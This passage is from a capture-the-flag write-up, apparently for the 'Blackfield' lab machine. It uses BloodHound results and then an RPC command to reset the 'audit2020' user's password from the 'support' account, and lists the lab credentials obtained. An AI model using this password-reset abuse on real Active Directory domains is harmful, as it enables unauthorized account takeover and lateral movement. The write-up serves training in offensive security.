 user "Support@blackfield.local" :

- is a member of "domain users"
  - is a member of "authenticated users"
    - is a member of "pre-windows 2000 compatible access"
    - is a member of "users"
  - is a member of "users"
  - is a member of "everyone"

![](results/bloodhound-user-outbound.png)

![](results/bloodhound-user-outbound-2.png)

The user "SUPPORT@BLACKFIELD.LOCAL" has the capability to change the user "AUDIT2020@BLACKFIELD.LOCAL"'s password without knowing that user's current password.

### Lateral movement to user "audit2020"

Since RPC service is available, it is possible to change a user password over RPC, from attacker host :

```bash
net rpc password -S $TARGET -U blackfield.local\\support audit2020
```

provide a new password `password` for support user.

There is a policy for the length, complexity, and history of the possword. The new password must meet these requirements.

With `password1234!`, the new password is set !

| username  | password        |
| ---       | ---             |
| support   | #00^BlackKnight |
| audit2020 | password1234!   |


### enumerate with username audit2020

check SMB access with this user :
